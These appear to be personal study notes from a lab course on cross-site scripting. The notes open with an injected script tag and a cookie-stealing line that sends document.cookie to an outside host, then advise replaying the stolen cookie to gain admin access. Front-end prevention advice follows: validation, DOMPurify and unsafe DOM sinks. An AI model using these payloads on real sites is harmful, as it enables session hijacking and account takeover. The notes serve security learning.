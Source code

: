 "><script src= http://10.10.15.193:8080></script>

Whit this script we can connect to eh server of the web page, then we must do a script to snifff the traffic with that.

Or create the file script.js and add the
new Image().src='http://10.10.15.193:8080/index.php?c='+document.cookie
 GET /index.php?c=cookie=c00k1355h0u1d8353cu23d
Then replace the cookie for get the admin.


# XSS Prevention:
We should have a good undestanding of what an XSS vulnerbility is a its different type, how to detect an XSS vulnerbility and how to exploit XSS vulnerbilies.
As discussed previusly, XSS vulnerbilities are mainly linked to two parts of the web app:
- Source [user input field]
- Sink [Display data]

the most important aspect if preventing XSS vulnerbilities is proper input sanitazation and validation on both the front and back end.

## Front-end:
Web app is where most of the user input is taken from, it is essential to sanitaze and validate the user input on the front end using JS.
- Input validation:
We saw that thw web app will no allow us to submit the form it the email format is invalid.:
```js
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```
This code is testing the email input field and returning true or false whether it matches the Regex validation of an mail.
- Input sanitization:
We should always ensute that we do not allow any input JS code by escaping any special character. [Repository](https://github.com/cure53/DOMPurify)

```js
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
```
- Direct input:
1. JS code <script></script>
2. CSS style code <style></style>
3. Tag/Attribute fields <div name='INPUT'></div>
4. HTML comments 

If the user input goes any of the above example, it can inject malicius JS code. Which may lead to an XSS vulnerability. We should avoid usin JS funtions that allow changing raw text of HTML fields:
- DOM.innerHTML
- DOM.outerHTML
- document.write()
- document.writeln()
- document.domain
